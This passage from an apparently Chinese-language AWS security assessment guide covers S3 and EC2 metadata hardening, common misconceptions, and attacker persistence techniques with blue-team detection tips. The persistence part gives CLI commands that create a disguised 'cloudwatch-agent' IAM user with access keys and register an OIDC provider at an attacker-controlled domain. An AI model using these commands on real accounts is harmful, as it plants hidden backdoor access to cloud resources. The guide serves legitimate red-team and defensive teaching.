  --permissions-boundary arn:aws:iam::123456789012:policy/DeveloperBoundary
```

#### S3安全加固

```bash
# 启用账户级别的S3公开访问阻止
aws s3control put-public-access-block --account-id 123456789012 \
  --public-access-block-configuration \
  BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true

# 强制所有桶启用加密
# 使用AWS Organizations SCP
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Deny",
      "Action": "s3:PutObject",
      "Resource": "*",
      "Condition": {
        "StringNotEquals": {
          "s3:x-amz-server-side-encryption": "aws:kms"
        }
      }
    }
  ]
}

# 启用S3访问日志
aws s3api put-bucket-logging --bucket target-bucket \
  --bucket-logging-status '{"LoggingEnabled":{"TargetBucket":"log-bucket","TargetPrefix":"s3-access/"}}'
```

#### EC2元数据加固

```bash
# 强制使用IMDSv2
aws ec2 modify-instance-metadata-options --instance-id i-xxx \
  --http-tokens required --http-endpoint enabled

# 批量修改所有实例
for instance in $(aws ec2 describe-instances --query 'Reservations[*].Instances[*].InstanceId' --output text); do
    aws ec2 modify-instance-metadata-options --instance-id "$instance" \
      --http-tokens required --http-endpoint enabled 2>/dev/null
done

# 限制hop limit防止容器内访问
aws ec2 modify-instance-metadata-options --instance-id i-xxx \
  --http-put-response-hop-limit 1
```

### 19.1.10 常见误区与纠正

| 误区 | 正确认知 |
|------|---------|
| "ACL关闭了就安全了" | Bucket Policy仍可能允许公开访问；需要检查所有四层控制 |
| "IMDSv2就绝对安全" | 在容器环境中Hop Limit配置不当仍可绕过 |
| "临时凭证过期就没事了" | 在有效期内可以做任何操作；凭证过期不代表操作被撤销 |
| "CloudTrail记录了一切" | S3数据操作需要额外启用Data Events；某些服务的API不被记录 |
| "安全组等于防火墙" | 安全组是有状态的包过滤，不检查应用层内容；需要配合WAF使用 |
| "加密了就安全了" | 如果KMS密钥管理不当，加密形同虚设；需要检查密钥策略 |
| "IAM策略Deny优先就安全了" | 如果SCP或Permission Boundary配置不当，Deny可能被绕过 |
| "只给读权限就安全了" | 某些读操作（如ssm:GetParameter）可能泄露敏感数据 |

### 19.1.11 进阶：AWS持久化技术

在获得初始访问后，攻击者通常会建立持久化机制以维持长期访问。了解这些技术既有助于红队评估，也有助于蓝队检测。

**持久化技术矩阵**：

| 技术 | 所需权限 | 隐蔽性 | 持久性 | 检测难度 |
|------|---------|--------|--------|---------|
| 创建IAM用户 | iam:CreateUser | 低 | 高 | 低 |
| 创建Access Key | iam:CreateAccessKey | 中 | 高 | 中 |
| 修改Lambda代码 | lambda:UpdateFunctionCode | 高 | 高 | 高 |
| 创建Glue Dev Endpoint | glue:CreateDevEndpoint | 中 | 中 | 中 |
| 修改CloudTrail | cloudtrail:StopLogging | 低 | 低 | 低 |
| 创建EC2实例 | ec2:RunInstances | 中 | 高 | 中 |
| 修改安全组 | ec2:AuthorizeSecurityGroupIngress | 低 | 高 | 低 |
| 创建IAM OIDC Provider | iam:CreateOpenIDConnectProvider | 高 | 高 | 高 |

```bash
# 技术1：创建不起眼的IAM用户
aws iam create-user --user-name "cloudwatch-agent"  # 伪装成服务账号
aws iam create-access-key --user-name "cloudwatch-agent"
aws iam attach-user-policy --user-name "cloudwatch-agent" \
  --policy-arn arn:aws:iam::aws:policy/ReadOnlyAccess

# 技术2：通过IAM OIDC Provider建立外部信任
# 这是最隐蔽的持久化方式之一
aws iam create-open-id-connect-provider \
  --url "https://attacker-controlled-domain.com/.well-known/openid-configuration" \
  --client-id-list "sts.amazonaws.com" \
  --thumbprint-list "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"

# 然后创建角色信任该OIDC Provider
# 攻击者可以通过自己的IdP随时获取该角色的临时凭证
```

**蓝队检测思路**：

- 监控所有IAM变更事件（CreateUser、AttachPolicy、CreateAccessKey等）
- 设置CloudWatch告警检测非常规时间的API调用
- 定期审计IAM用户和角色的信任策略
- 使用AWS Access Analyzer检测外部可访问的资源
- 启用GuardDuty检测异常API调用模式（如从未见过的IP调用）

***

**本节小结**：AWS安全评估是一个系统性工程，从IAM枚举开始，逐步覆盖存储、计算、网络、日志各层。核心原则是"发现已有的权限"而非"尝试越权"。使用Prowler做基线扫描、Pacu做红队攻击、CloudMapper做架构分析，三者组合可以覆盖绝大多数评估场景。防御端最关键的是：强制MFA、最小权限原则、强制IMDSv2、S3公开访问阻止。
